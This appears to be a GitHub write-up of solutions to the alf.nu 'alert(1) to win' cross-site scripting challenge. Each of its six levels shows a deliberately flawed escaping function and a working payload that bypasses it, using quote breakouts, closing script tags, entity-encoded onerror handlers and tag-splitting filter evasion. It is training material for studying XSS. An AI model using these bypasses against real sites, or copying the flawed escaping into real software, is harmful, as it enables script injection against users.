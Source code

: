 # alf.nu

> alert(1) to win
 
## Challenges
- [Warmup](#warmup)
- [Adobe](#adobe)
- [JSON](#json)
- [Markdown](#markdown)
- [Skandia](#skandia)
- [JSON2](#json2)


## Warmup

- Task

```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

- Solution

```
",alert(1),"
```

## Adobe

- Task

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
\");alert(1)//
```

## JSON

- Task

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</script><script>alert(1)//
```

## Markdown

- Task

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```
[[x|http://onerror=javascript:alert(1)//]]
```

## Skandia

- Task

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

## JSON2

- Task

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```
